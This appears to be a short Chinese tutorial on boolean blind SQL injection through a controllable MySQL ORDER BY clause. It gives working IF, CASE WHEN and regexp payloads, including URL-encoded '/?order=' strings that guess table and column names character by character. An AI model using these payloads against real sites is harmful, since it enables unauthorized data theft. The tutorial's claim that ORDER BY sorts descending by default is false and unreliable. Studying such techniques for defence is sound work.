







order by在mysql中通常作为排序

例如：

```javascript
select * from admin1 order by id;
```




默认是降序排列。


1. 基于order by的盲注

当order by后面的参数可控时，通过控制传入的参数，可是返回数据的排列不同，造成布尔盲注

列如：

1.1 IF(1=2,id,username)

```javascript
select * from admin1 order by IF(1=2,id,username) ;
```





```javascript
select * from admin1 order by IF(1=2,id,username) ;
```





2. 基于此原理猜解内容：

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='r',1,0x00)) ;
```





通过返回的内容不同，从而确定数据内容

```javascript
select * from admin1 order by (select 1 regexp if(substring(user(),1,1)='1',1,0x00)) ;
```




猜解数据库表名；

```javascript
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x67,1,0x00)) 正确
(select+1+regexp+if(substring((select+concat(table_name)from+information_schema.tables+where+table_schema%3ddatabase()+limit+0,1),1,1)=0x66,1,0x00)) 错误
```

猜解数据库列名：

```javascript
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x69,1,0x00)) 正常
/?order=(select+1+regexp+if(substring((select+concat(column_name)from+information_schema.columns+where+table_schema%3ddatabase()+and+table_name%3d0x676f6f6473+limit+0,1),1,1)=0x68,1,0x00)) 错误
```


1.2 (case when (1) then id else username end) 




```javascript
 (case when (FALSE) then id else username end) 
```




